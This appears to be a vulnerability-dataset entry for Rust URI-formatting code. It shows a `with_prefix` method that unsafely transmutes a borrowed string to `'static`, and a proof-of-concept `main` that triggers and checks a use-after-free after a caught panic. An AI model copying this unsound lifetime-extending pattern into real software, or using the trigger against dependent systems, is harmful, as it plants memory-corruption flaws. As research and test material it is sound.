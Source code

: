 ## Dependencies:
- Crates:
  - `std`
  - `smallvec = "1.0"`
- Types:
  - Structs: `Formatter<'i, P>`, `Wrapper<'a, 'b>`, `MyDisplay`, `MyValue`
  - Enums: `Query`
  - Primitive Types: `&str`, `char`, `bool`
- Traits:
  - `UriPart`
  - `UriDisplay<P>`
  - `std::fmt::Write`
  - `Drop`
- Functions and Methods:
  - Associated Functions: `Formatter::new`
  - Methods: `Formatter::with_prefix`, `Formatter::write_named_value`, `Formatter::write_raw`, `std::panic::catch_unwind`

## Vulnerable Code:
```rust
impl<'i> Formatter<'i, Query> {
    fn with_prefix<F>(&mut self, prefix: &str, f: F) -> fmt::Result
        where F: FnOnce(&mut Self) -> fmt::Result
    {
        let prefix: &'static str = unsafe { std::mem::transmute(prefix) };

        self.prefixes.push(prefix);
        let result = f(self);
        self.prefixes.pop();

        result
    }
}
```

## Trigger Method:(customized)
```rust
fn main() {
    let mut buffer = String::new();
    let mut formatter = Formatter::<Query>::new(&mut buffer);

    let poc_trigger = MyDisplay;

    // Trigger the panic within a controlled environment to catch it.
    let result = std::panic::catch_unwind(std::panic::AssertUnwindSafe(|| {
        UriDisplay::fmt(&poc_trigger, &mut formatter)
    }));

    // Assert that a panic occurred as expected.
    assert!(result.is_err());

    // After the panic, the Drop guard in the PoC has executed,
    // which re-used the dangling pointer's memory location.
    // The call to `write_raw("world")` inside the Drop guard
    // uses the dangling pointer, which now points to "12345".
    // This results in the UAF output.
    assert_eq!(buffer, "12345=world");
    
    println!("Successfully triggered and verified Use-After-Free.");
    println!("Buffer content: {}", buffer);
}
```